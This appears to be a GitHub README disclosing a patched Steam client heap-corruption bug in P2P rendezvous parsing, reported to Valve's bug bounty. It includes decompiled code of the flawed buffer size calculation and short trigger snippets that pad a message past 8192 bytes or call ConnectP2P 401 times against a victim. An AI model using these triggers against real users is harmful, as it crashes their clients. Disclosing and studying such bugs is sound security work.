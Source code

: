 # CrashSteamUser
**PoC Code for Steam Bug Bounty, Allowing P2P Connections to Crash Clients, submitted to Valve's bug bounty program under "#1276762
Improper memory buffer size calculation causes heap corruption in steamclient.dll CMsgSteamNetworkingP2PRendezvous signal parse"**

*Valve Quickly Responded to, and Patched this bug within a month of initial reporting. Funds were awarded under their bug bounty program*

## Technical Background 

Valve provides native P2P networking capabilities within [Steam GameNetworkingSockets](https://github.com/ValveSoftware/GameNetworkingSockets), avaliable for use to game developers through the [Steamworks API](https://partner.steamgames.com/doc/sdk).

To begin a P2P session, GameNetworkingSockets generates a CMsgSteamNetworkingP2PRendezvous protobuf message in [SetRendezvousCommonFieldsAndSetSignals](https://github.com/ValveSoftware/GameNetworkingSockets/blob/d5f855967440eeb5b4d5798bebe179ef868ac6af/src/steamnetworkingsockets/clientlib/steamnetworkingsockets_p2p.cpp#LL1599C34-L1599C72). This message is then transmitted to the targeted client, who will then initiate a worker thread for a CClientJobConnectionInfo message, containing the Rendezvous found within a CMsgClientP2PConnectionInfo message.

## The Bug

The following disassembled representation of a function within steamclient.dll: 
```C
    nByteSize = CalculateByteSize(&P2PRendezvous);
    nSizeReturn = nByteSize;
    nSizeOfAllocedMemory = 8208;
    if ( nByteSize > 8192 )
    {
      nSizeOfAllocedMemory = 16400 - nByteSize; //nSizeOfAllocedMemory now becomes very small
    }
    allocedMemory = (*(int (__stdcall **)(int))(*g_pMemAllocSteam + 12))(nSizeOfAllocedMemory); // malloc
    v17 = *(_DWORD *)(ContainsappID + 24);
    *(_DWORD *)(allocedMemory + 4) = *(_DWORD *)(ContainsappID + 28);
    *(_DWORD *)allocedMemory = v17;
    *(_DWORD *)(allocedMemory + 8) = v30;
    *(_DWORD *)(allocedMemory + 12) = nSizeReturn;
    SerializeMessage(&P2PRendezvous, (_BYTE *)(allocedMemory + 16));
```

A improper calculation occurs in steamclient.dll. When a Rendezvous message is received, it is deseralized and placed within a CMsgClientP2PConnectionInfo protobuf. When calling into the signal parser, it is then seralized to an allocated memory buffer. 

The byte size of the total message is calculated and used to allocate a buffer of appropriate size. However, the value is checked to be greater than 8192 bytes,if it is found to be so, the new allocated memory size is set to 16400 - the total size. 

This causes any messages larger than 8192 to allocate a buffer of insuffecient size. ` (16400 - 16 /*hdr*/) - 8193 = 8191`, leading to heap corruption. 

In order to trigger this bug, reliable messages were appended in PoC code to fill the message size to greater than 8192 bytes.

```C++    
CMsgSteamNetworkingP2PRendezvous* pMsg = reinterpret_cast<CMsgSteamNetworkingP2PRendezvous*>(msg);
while (pMsg->ByteSize() < 8192)
{
    pMsg->add_reliable_messages();
}
 ```
 
Additionally, due to the nature of SetRendezvousCommonFieldsAndSendSignal automatically adding reliable messages that haven't been ack'd to the message (m_vecUnackedOutboundMessages), simply rapidly calling ISteamNetworkingSockets::ConnectP2P in rapid succession is enough to trigger the bug
The following code worked every attempt:

```
	for (int i = 0; i < 401; i++)
	{
		hConn[i] = Globals::g_pSteamNetworkingSockets->ConnectP2P(VictimNetworkingIdentity, i, 0, 0);
	}

```



## Video Presentation
 [![Proof Of Concept video](https://img.youtube.com/vi/huNZtW7w9p8/0.jpg)](https://www.youtube.com/watch?v=huNZtW7w9p8)

